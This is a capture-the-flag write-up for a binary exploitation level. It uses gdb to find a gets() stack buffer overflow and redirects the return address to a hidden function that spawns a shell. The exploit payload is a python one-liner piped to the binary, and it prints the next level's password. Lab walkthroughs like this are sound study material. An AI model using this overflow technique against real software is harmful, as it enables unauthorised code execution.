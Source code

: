 ## LEVEL 1
---

The first thing to do is to inspect the list of functions.

```shell
(gdb) info functions
[...]
0x08048444  run
0x08048480  main
[...]
```

Now I will disassemble these two functions to understand what they do.

```shell
(gdb) disas main
[...]
0x08048486 <+6>:	sub    $0x50,%esp
[...]
0x08048490 <+16>:	call   0x8048340 <gets@plt>
[...]
(gdb) disas run
0x08048472 <+46>:	movl   $0x8048584,(%esp)
0x08048479 <+53>:	call   0x8048360 <system@plt>
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```

Now I know that the `main` function runs the `gets` function but does not call the `run` function. The `run` function runs the `system` function with `/bin/sh` as an argument.

If I want to access the `.pass` file, I need to find a way to call the `run` function from within `main`.

But before doing that, I will search for information on what the `gets` function does.

```
Description
fgetc() reads the next character from the stream and returns it as an unsigned char cast to an int, or EOF on end of file or error.

Bugs
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.
It is not advisable to mix calls to input functions from the stdio library with low-level calls to read(2) for the file descriptor associated with the input stream; the results will be undefined and very probably not what you want.
```

Okay, this text explains that the `gets` function should not be used because it is vulnerable to a *buffer overflow attack*. To understand what a buffer overflow attack is, [read this](../x86_docs/buffer_overflow_attack.md).

So, I will use this vulnerability to change the return value to point to the `run()` address.

---

### Now it's time to attack the binary.

### 1. Find the address where the return value of the `main()` function is stored.

To do that, we have two ways:
- Use an EIP tool like [this one]("https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/")
- Use GDB manually

I will use the second way to improve my knowledge of GDB.

```shell
(gdb) x $esp
0xbffff6e0:  0xbffff6f0
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048495 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args:
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
```

So, I just have to calculate `(0xbffff738 + 4) - 0xbffff6f0` and I get `76`.

Now, I will write 76 random letters followed by the desired return address.

```shell
(gdb) i func
0x08048444  run

$ python -c 'print "A"*76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Perfect, this works. Now, I need to write a command to print the `.pass` file before the program exits.

```shell
$ (python -c 'print "A"*76 + "\x44\x84\x04\x08"'; echo "cat /home/user/level2/.pass") | ./level1
Good... Wait what?
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Segmentation fault (core dumped)
```
---
*Source :*

*https://linux.die.net/man/3/gets*
